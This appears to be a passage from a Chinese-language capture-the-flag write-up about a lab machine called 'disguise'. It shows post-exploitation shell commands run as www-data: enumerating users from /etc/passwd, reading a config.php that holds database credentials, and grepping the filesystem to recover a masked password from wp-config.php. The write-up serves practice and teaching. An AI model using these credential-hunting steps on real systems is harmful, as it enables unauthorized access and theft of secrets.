 ```bash
(remote) www-data@disguise:/$ cat /etc/passwd | grep sh | cut -d: -f1
root
sshd
darksoul
(remote) www-data@disguise:/$ ls -la /home
total 12
drwxr-xr-x  3 root     root     4096 Mar 31 11:19 .
drwxr-xr-x 18 root     root     4096 Mar 31 11:13 ..
drwxr-xr-x  4 darksoul darksoul 4096 Apr  2 04:19 darksoul
(remote) www-data@disguise:/$ cd ~
(remote) www-data@disguise:/var/www$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 Mar 31 21:07 .
drwxr-xr-x 12 root     root     4096 Mar 31 11:33 ..
drwxr-xr-x  4 www-data www-data 4096 Apr  2 04:39 dark
drwxr-x---  5 www-data www-data 4096 Apr  2 05:33 html
(remote) www-data@disguise:/var/www$ cd dark
(remote) www-data@disguise:/var/www/dark$ ls -la
total 76
drwxr-xr-x 4 www-data www-data 4096 Apr  2 04:39 .
drwxr-xr-x 4 root     root     4096 Mar 31 21:07 ..
-rw-r--r-- 1 root     root      905 Mar 31 23:01 captcha.php
-rw-r--r-- 1 root     root       95 Apr  1 03:58 config.php
-rw-r--r-- 1 root     root     1736 Apr  1 21:24 functions.php
-rw-r--r-- 1 root     root      660 Apr  1 05:13 image_handler.php
drwxr-xr-x 2 www-data www-data 4096 Jun 20 13:47 images
-rw-r--r-- 1 root     root     1225 Apr  1 05:16 index.php
-rw-r--r-- 1 root     root     2088 Apr  1 04:14 login.php
-rw-r--r-- 1 root     root      237 Mar 31 22:00 logout.php
drwxr-xr-x 2 root     root     4096 Apr  1 22:59 manager
-rw-r--r-- 1 root     root     1142 Apr  1 21:29 profile.php
-rw-r--r-- 1 root     root     4080 Apr  1 04:28 register.php
-rw-r--r-- 1 root     root     4350 Mar 31 22:49 style1.css
-rw-r--r-- 1 root     root     4474 Apr  1 03:40 style2.css
-rw-r--r-- 1 root     root     2342 Apr  1 03:41 style3.css
-rw-r--r-- 1 root     root     2801 Apr  1 04:43 style4.css
(remote) www-data@disguise:/var/www/dark$ cat config.php 
<?php

$DB_USER = 'dark_db_admin';
$DB_PASS = 'Str0ngPassw0d1***';
$DB_NAME = 'dark_shop';

?>
```

数据库密码遮住了三位`Str0ngPassw0d1***`，尝试进行检索。。。。

```bash
(remote) www-data@disguise:/var/www/dark$ grep -Pnir "Str0ngPassw0d1" /var/ 2>/dev/null
/var/www/dark/config.php:4:$DB_PASS = 'Str0ngPassw0d1***';
/var/www/html/wp-config.php:29:define( 'DB_PASSWORD', 'Str0ngPassw0d1!!!' );
(remote) www-data@disguise:/var/www/dark$ grep -Pnir "Str0ngPassw0d1" /home/ 2>/dev/null
/home/darksoul/config.ini:3:password = Str0ngPassw0d1***
```
